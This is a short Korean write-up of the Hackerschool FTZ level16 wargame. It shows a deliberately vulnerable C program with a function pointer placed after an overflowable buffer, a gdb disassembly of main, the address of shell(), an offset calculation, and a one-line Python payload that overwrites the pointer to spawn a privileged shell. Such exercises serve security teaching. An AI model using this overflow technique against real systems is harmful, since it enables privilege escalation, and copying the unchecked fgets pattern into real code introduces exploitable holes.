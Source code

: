 Hackerschool FTZ level16
===
~~~c
#include <stdio.h>

 

void shell() {

  setreuid(3097,3097);

  system("/bin/sh");

}

void printit() {

  printf("Hello there!\n");

}

 

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  call();

}

~~~

~~~gdb
Dump of assembler code for function main:

0x08048518 <main+0>:    push   ebp

0x08048519 <main+1>:    mov    ebp,esp

0x0804851b <main+3>:    sub    esp,0x38

0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500

0x08048525 <main+13>:   sub    esp,0x4

0x08048528 <main+16>:   push   ds:0x80496e8

0x0804852e <main+22>:   push   0x30

0x08048530 <main+24>:   lea    eax,[ebp-56]

0x08048533 <main+27>:   push   eax

0x08048534 <main+28>:   call   0x8048384 <fgets>

0x08048539 <main+33>:   add    esp,0x10

0x0804853c <main+36>:   mov    eax,DWORD PTR [ebp-16]

0x0804853f <main+39>:   call   eax

0x08048541 <main+41>:   leave

0x08048542 <main+42>:   ret

0x08048543 <main+43>:   nop

0x08048544 <main+44>:   nop

0x08048545 <main+45>:   nop

0x08048546 <main+46>:   nop

0x08048547 <main+47>:   nop

0x08048548 <main+48>:   nop

0x08048549 <main+49>:   nop

0x0804854a <main+50>:   nop

0x0804854b <main+51>:   nop

0x0804854c <main+52>:   nop

0x0804854d <main+53>:   nop

0x0804854e <main+54>:   nop

0x0804854f <main+55>:   nop

End of assembler dump.

(gdb) p shell

$1 = {<text variable, no debug info>} 0x80484d0 <shell>
출처: http://savefile.tistory.com/152 [해커 스토리]
~~~
>0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500
>0x08048525 <main+13>:   sub    esp,0x4
>0x08048528 <main+16>:   push   ds:0x80496e8
>0x0804852e <main+22>:   push   0x30
>0x08048530 <main+24>:   lea    eax,[ebp-56]
>> 56-16 =40;
공격코드 : (python -c 'print "A"*40+"\xd0\x84\x04\x08"';cat) | ./attackme

